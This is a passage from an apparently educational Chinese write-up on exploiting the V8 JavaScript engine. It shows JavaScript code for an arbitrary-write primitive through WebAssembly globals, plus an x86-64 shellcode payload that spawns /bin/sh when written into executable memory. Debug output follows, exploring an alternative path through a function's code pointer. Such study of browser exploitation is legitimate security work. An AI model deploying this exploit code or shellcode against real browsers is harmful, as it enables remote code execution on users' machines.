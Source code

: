 ```js
    return ret;
}

function aaw(addr, value) {
    let victim_bk = victim[0];
    victim[0] = addr;
    if (aligned) {
        let bk = victim[ wasm_idx + 10n ];
        victim[ wasm_idx + 10n ] = js_base; // set imported_mutable_globals ptr
        setGlobal(value);
        victim[ wasm_idx + 10n ] = bk;
    } else {
        let bk1 = victim[ wasm_idx + 10n ];
        let bk2 = victim[ wasm_idx + 11n ];
        victim[ wasm_idx + 10n ] = (victim[ wasm_idx + 10n ] & 0xffffffffn) + ((js_base & 0xffffffffn) << 32n);
        victim[ wasm_idx + 11n ] = ((victim[ wasm_idx + 11n ] >> 32n) << 32n) + (js_base >> 32n);
        setGlobal(value);
        victim[ wasm_idx + 10n ] = bk1;
        victim[ wasm_idx + 11n ] = bk2;
    }
    victim[0] = victim_bk;
}

nop = Array(0x8).fill(0x9090909090909090n); // 0x40
shellcode = [0x480000003bc0c748n, 0x2fbf48d23148f631n, 0x480068732f6e6962n, 0x050fe78948243c89n]; // 0x20
jmp = Array(0xc).fill(0x9eeb9eeb9eeb9eebn); // 0x60
payload = nop.concat(shellcode, jmp);

for (let i = 168n, j = 0; i < 192n; i++, j++)
    aaw(rwx + i*8n, payload[j]);
aar(0n);
```

---



另一個作法則是，當透過 `%DebugPrint()` 去看某個 function object 的 attribute 時，會發現：

```
DebugPrint: 0x326208048835: [Function]
 ...
 - prototype: 0x3262081c31b1 <JSFunction (sfi = 0x326208146291)>
 ...
 - context: 0x3262081d293d <ScriptContext[5]>
 - code: 0x326200004f01 <Code BUILTIN CompileLazy>
```

有一個 `code` member，此時在用 `%DebugPrintPtr()` 將印處此 member 的相關訊息，能得到：

```
%DebugPrintPtr(0x326200004f01)
DebugPrint: 0x326200004f01: [Code]
 - map: 0x32620800263d <Map>
 - code_data_container: 0x3262080035c1 <Other heap object (CODE_DATA_CONTAINER_TYPE)>
 - builtin_id: CompileLazy
kind = BUILTIN
name = CompileLazy
compiler = turbofan
address = 0x326200004f01

Trampoline (size = 16)
0x326200004f40     0  49bac0d6e80762320000 REX.W movq r10,0x326207e8d6c0  (CompileLazy)
0x326200004f4a     a  41ffe2               jmp r10
```